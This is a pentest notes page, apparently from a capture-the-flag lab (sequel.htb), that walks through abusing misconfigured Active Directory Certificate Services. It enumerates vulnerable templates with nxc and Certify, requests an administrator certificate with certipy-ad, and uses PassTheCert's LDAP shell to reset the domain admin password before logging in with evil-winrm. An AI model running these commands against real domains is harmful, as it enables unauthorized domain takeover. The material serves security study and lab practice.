

# Active Directory Certificate Services (ADCS)

<details>

<summary>What is it?</summary>

* Relies on **misconfigured certificate templates** that allow low-privileged users to enroll for certificates --> used to get Kerberos tickets for higher-privileged accounts

</details>

<details>

<summary>Finding if ADCS is present in domain</summary>

```
nxc ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M adcs
```

<figure><figcaption></figcaption></figure>

```
.\Certify.exe cas
```

<figure><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation</summary>

```bash
# Identify Vulnerable Templates:
.\Certify.exe find /vulnerable
```

<figure><figcaption></figcaption></figure>

```bash
# Use certipy-ad to request a certificate for domain admin
certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication -dc-ip 10.10.11.202
```

<figure><figcaption></figcaption></figure>

```bash
# Download on Kali
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py

# Seperate into key and certificate files
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Passthecert using ldap-shell option
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain sequel.htb -dc-ip 10.10.11.202
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i dc.sequel.htb -u administrator
```

<figure><figcaption></figcaption></figure>

</details>
